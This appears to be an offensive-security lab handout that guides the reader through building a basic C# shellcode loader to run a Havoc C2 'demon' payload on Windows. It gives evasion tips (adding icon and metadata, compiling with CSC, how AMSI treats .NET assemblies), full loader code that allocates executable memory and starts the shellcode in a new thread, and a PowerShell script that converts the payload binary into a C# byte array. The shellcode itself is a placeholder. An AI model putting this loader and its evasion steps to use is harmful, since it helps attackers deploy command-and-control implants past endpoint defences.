 # Lab - Shellcode


> OPSEC HINT : Let's apply some basic best practices when we compile the following code
> 1. add and icon file to the dotnet app.
> 2. add metadata
> 3. compile with CSC

When compiling the dotnet code you can specify the .net version
```powershell

```

We'll need the .Net Developer Pack 4.8, let's see if it is installed:

```cmd
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Version
```

CSC.exe is located in "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe"


>HINT : Remember that AMSI will behave differently with .net assemblies than it would when using powershell scripts. In a powershell script amsi.?dll is automatically loaded into powershell, with dotnet assemblies AMSI will interact with the CLR on demand.

Let's generate a Havoc shellcode payload (on `KALI` using the Havoc GUI):

Screenshots + xxd (hexview) payload.

Switch to your windows and under `"C:\THEV\Labs\LocalLoader"` you'll find a csharp solution file - open that with Visual Studio 2022.

We'll now build our own custom (but very basic) shellcode loader in CSHARP (= dotnet assembly).

```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodePayload
{
    class Payload
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main()
        {
            // (1) insert our shellcode
            byte[] shellCode = new byte[] { /* insert shellcode here */ };

            // (2) allocate memory for shellcode
            UInt32 MEM_COMMIT = 0x1000;
            UInt32 PAGE_EXECUTE_READWRITE = 0x40;
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            // (3) inject shellcode into allocated memory
            Marshal.Copy(shellCode, 0, funcAddr, shellCode.Length);

            // (4) execute injected shellcode
            UInt32 threadId = 0;
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

----
Here's a small shellcode formatter toos in powershell, it converts a binary file to csharp:

```powershell
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
```

---
Hooka

Donut